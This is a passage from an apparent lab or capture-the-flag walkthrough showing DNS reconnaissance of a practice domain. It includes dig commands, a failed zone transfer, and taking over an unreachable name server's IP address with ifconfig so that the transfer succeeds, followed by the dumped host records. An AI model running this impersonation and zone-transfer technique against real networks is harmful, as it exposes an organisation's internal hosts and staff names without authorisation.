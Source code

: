 ;; Query time: 3 msec
;; SERVER: 192.168.1.88#53(192.168.1.88)
;; WHEN: Sun May  3 01:04:27 2015
;; MSG SIZE  rcvd: 113
{% endcodeblock %}

We append these lines to /etc/hosts and try DNS AXFR (zone transfer):
{% codeblock %}
192.168.1.88 ns1.zincftp.com
192.168.1.89 ns2.zincftp.com
{% endcodeblock %}
{% codeblock %}
root@kali32:~# dig @192.168.1.88 zincftp.com axfr

; <<>> DiG 9.8.4-rpz2+rl005.12-P1 <<>> @192.168.1.88 zincftp.com axfr
; (1 server found)
;; global options: +cmd
; Transfer failed.
root@kali32:~# dig @192.168.1.89 zincftp.com axfr
;; Connection to 192.168.1.89#53(192.168.1.89) for zincftp.com failed: host unreachable.
{% endcodeblock %}

We change our IP address to the IP of the not reachable DNS server and try AXFR again:
{% codeblock %}
root@kali32:~# ifconfig eth0:1 192.168.1.89
root@kali32:~# dig @192.168.1.89 zincftp.com axfr

; <<>> DiG 9.8.4-rpz2+rl005.12-P1 <<>> @192.168.1.88 zincftp.com axfr
; (1 server found)
;; global options: +cmd
zincftp.com.            38400   IN      SOA     ns1.zincftp.com. ns2.zincftp.com. 2006071801 28800 3600 604800 38400
zincftp.com.            38400   IN      NS      ns1.zincftp.com.
zincftp.com.            38400   IN      NS      ns2.zincftp.com.
zincftp.com.            38400   IN      MX      10 mta.zincftp.com.
zincftp.com.            38400   IN      A       192.168.1.88
ahuxley.zincftp.com.    38400   IN      A       192.168.1.88
amckinley.zincftp.com.  38400   IN      A       192.168.1.88
bzimmerman.zincftp.com. 38400   IN      A       192.168.1.88
cbergey.zincftp.com.    38400   IN      A       192.168.1.88
cfinnerly.zincftp.com.  38400   IN      A       192.168.1.88
cjalong.zincftp.com.    38400   IN      A       192.168.1.88
cmahong.zincftp.com.    38400   IN      A       192.168.1.88
cmanson.zincftp.com.    38400   IN      A       192.168.1.88
ddonnovan.zincftp.com.  38400   IN      A       192.168.1.88
ddypsky.zincftp.com.    38400   IN      A       192.168.1.88
dev.zincftp.com.        38400   IN      A       192.168.1.88
dhammond.zincftp.com.   38400   IN      A       192.168.1.88
dmoran.zincftp.com.     38400   IN      A       192.168.1.88
dsummers.zincftp.com.   38400   IN      A       192.168.1.88
evorhees.zincftp.com.   38400   IN      A       192.168.1.88
gwelch.zincftp.com.     38400   IN      A       192.168.1.88
hmcknight.zincftp.com.  38400   IN      A       192.168.1.88
jgacy.zincftp.com.      38400   IN      A       192.168.1.88
jsmith.zincftp.com.     38400   IN      A       192.168.1.88
jstreet.zincftp.com.    38400   IN      A       192.168.1.88
kmccallum.zincftp.com.  38400   IN      A       192.168.1.88
lnickerbacher.zincftp.com. 38400 IN     A       192.168.1.88
lsanderson.zincftp.com. 38400   IN      A       192.168.1.88
lwestre.zincftp.com.    38400   IN      A       192.168.1.88
mta.zincftp.com.        38400   IN      A       10.0.192.48
ncobol.zincftp.com.     38400   IN      A       192.168.1.88
ns1.zincftp.com.        38400   IN      A       192.168.1.88
ns2.zincftp.com.        38400   IN      A       192.168.1.89
rcropper.zincftp.com.   38400   IN      A       192.168.1.88